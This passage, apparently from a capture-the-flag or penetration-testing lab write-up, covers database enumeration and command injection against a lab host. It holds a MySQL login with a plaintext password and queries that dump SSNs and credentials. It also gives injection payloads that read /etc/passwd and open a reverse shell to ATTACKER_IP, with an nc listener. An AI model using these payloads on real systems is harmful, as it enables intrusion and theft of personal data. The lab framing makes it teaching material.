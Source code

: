**Result**: Successfully bypassed authentication and gained access to dashboard.

### 2.3 Database Enumeration via Direct Connection

```bash
# Connect to exposed MySQL
mysql -h 192.168.1.10 -P 3306 -u webapp -pw3bp@ss123 securecorp

# Enumerate tables
SHOW TABLES;

# Extract sensitive data
SELECT * FROM users;
SELECT * FROM employees;  -- Contains SSN and salary info
SELECT * FROM system_config WHERE is_sensitive = TRUE;
```

**Sensitive Data Found**:
- User credentials (plaintext passwords)
- Employee SSN and salary information
- System configuration secrets
- Internal network information

---

## 💻 Phase 3: Remote Code Execution (20 points)

### 3.1 Command Injection via Network Tools

**Target**: `http://192.168.1.10:8080/dashboard.php?page=network`

**Vulnerable Code**:
```php
$output = shell_exec("ping -c 3 $host 2>&1");
```

**Exploitation**:
```bash
# Basic command injection
Host: google.com; id

# Information gathering
Host: google.com; cat /etc/passwd

# Reverse shell payload
Host: google.com; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```

**Setup Listener**:
```bash
# On attacker machine
nc -lvnp 4444
```

### 3.2 File Upload Vulnerability
